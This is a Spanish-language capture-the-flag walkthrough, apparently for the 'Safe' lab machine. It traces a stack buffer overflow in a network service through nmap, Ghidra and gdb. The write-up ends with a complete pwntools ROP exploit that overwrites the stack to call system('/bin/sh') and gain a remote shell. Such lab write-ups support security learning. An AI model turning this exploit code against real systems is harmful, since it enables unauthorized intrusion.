 # Safe

### Tags
#### Buffer Overflow
#### Binary Exploitation

Empezamos lanzando nmap para ver que puertos y servicios que se estan ejecutando.

![0](https://user-images.githubusercontent.com/50462944/174450002-4592b4e0-1b47-487e-95d7-a76c4e0b6a05.png)

Vemos que el puerto 80 y 1337 estan abiertos.

Analizando la pagina se puede ver un comentario sobre el puerto 1337. 

![1](https://user-images.githubusercontent.com/50462944/174449826-9b702237-a914-4677-a066-f11224e3fc01.png)

Si accedemos a http://10.10.10.147/myapp, se descargara "myapp" que segun el comentario se esta ejecutando en ese puerto.


![2](https://user-images.githubusercontent.com/50462944/174450232-36dc8c6e-b2ec-4803-a879-e7eba0ce6010.png)

![3](https://user-images.githubusercontent.com/50462944/174449828-213d2e92-922f-4dc3-9496-b79cbcf842b1.png)

Viendo el servicio en 1337 y "myapp" podemos ver que es lo mismo.


![4](https://user-images.githubusercontent.com/50462944/174449829-80d951b4-d691-4329-aafb-27fced7f3a8a.png)

Analizando los strings legibles podemos ver que hay un /usr/bin/uptime y la pregunta que devuelve el programa.

Estos abrimos ghidra, y creamos un proyecto y importamos el archivo.

![s2](https://user-images.githubusercontent.com/50462944/174450325-c122d315-fef5-44ae-93b2-c38559494751.png)


![s4](https://user-images.githubusercontent.com/50462944/174449825-a44d5547-bd7e-4994-b4f7-92f6fb86f071.png)

Podemos ver una la función main, una variable local_78 con 112 bits, y una funcion a nivel de sistema.

Por lo que lo interesante seria poder cambiar el /usr/bin/uptime a un /bin/sh.

![6](https://user-images.githubusercontent.com/50462944/174449832-02c396f8-3dc8-479c-aa35-de1caedd6d0c.png)

Con gdb podemos ver las pilas.

![ksnip_20220618-161557](https://user-images.githubusercontent.com/50462944/174455304-4c4c91fb-402b-4be9-90e8-2786897e3e89.png)

Hacemos un breackpoint en la funcion main

![ksnip_20220618-152833](https://user-images.githubusercontent.com/50462944/174452172-8407bccd-b1b0-4658-a922-8db72cea2040.png)

Avanzamos en las pilas con "si" hasta system

![ksnip_20220618-152923](https://user-images.githubusercontent.com/50462944/174452229-eb448863-5294-43a9-83c5-ef4a58d762aa.png)

Se puede ver que el valor /usr/bin/uptime que es ejecutado a nivel de sistema esta siendo guardado en la pila $rdi

![ksnip_20220618-153100](https://user-images.githubusercontent.com/50462944/174452266-ccb916ef-40de-4cda-9f84-b3fb9c87edb4.png)

```bash
~ python3 -c 'print("A"*120 + "B"*8 + "C"* 8)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC
```

Ahora podemos ver que $rsp puede ser cambiado 

![ksnip_20220618-152509](https://user-images.githubusercontent.com/50462944/174452383-5afba89a-3979-4e1f-8651-d7d6b7627d19.png)

Analizando la funcion test podemos ver "MOV     RDI, RSP" que significa que esta moviento los valores el $rsp al $rdi. Recordando que $rdi es lo que se ejecuta en system y $rsp es lo que podemos modificar.

![5](https://user-images.githubusercontent.com/50462944/174449816-a39c1be0-5b8c-43a6-9737-71165b201520.png)

Y obtenemos 0x401206 del "JUMP   r13", ademas tenemos en cuenta el R14 y el r15 por lo que en el payload lo haremos un null.

![ksnip_20220618-164803](https://user-images.githubusercontent.com/50462944/174455374-1ab2a865-9180-4a40-aa85-229d9e4304d4.png)

```bash
~ cat poc.py
from pwn import *

context(terminal=['tmux', 'new-window'])
context(os='linux', arch='amd64')

p = remote("10.10.10.147", 1337)

junk = b"A"*112
# Una vez pasadas las 112 "A" va a haber un desbordamiento. junk es el offset
# Le restamos 8 por que /bin/sh\x00 serian 8 caracteres
bin_sh = b"/bin/sh\x00"
# Y remplazamos en binario el $rdi 

#gef> ropper --search "pop r13"

pop_r13 = p64(0x401206)
null = p64(0x0)

# ~ objdump -D ./myapp | grep system

system_plt = p64(0x401040)

# ~ objdump -D ./myapp | grep test

test = p64(0x401152)

payload = junk + bin_sh + pop_r13 + system_plt + null + null + test

# junk: es el offset
# bin_sh: "/bin/sh"
# pop_r13: llamara a system_plt
# system_plt -> system()
# null y null es por = r13, r14 y 15

p.sendline(payload)
p.interactive()
```

Una vez lanzado el ataque obtenemos una bash.

![7](https://user-images.githubusercontent.com/50462944/174449830-73918c79-32f7-4b06-8eaa-1eb3f07c1f76.png)
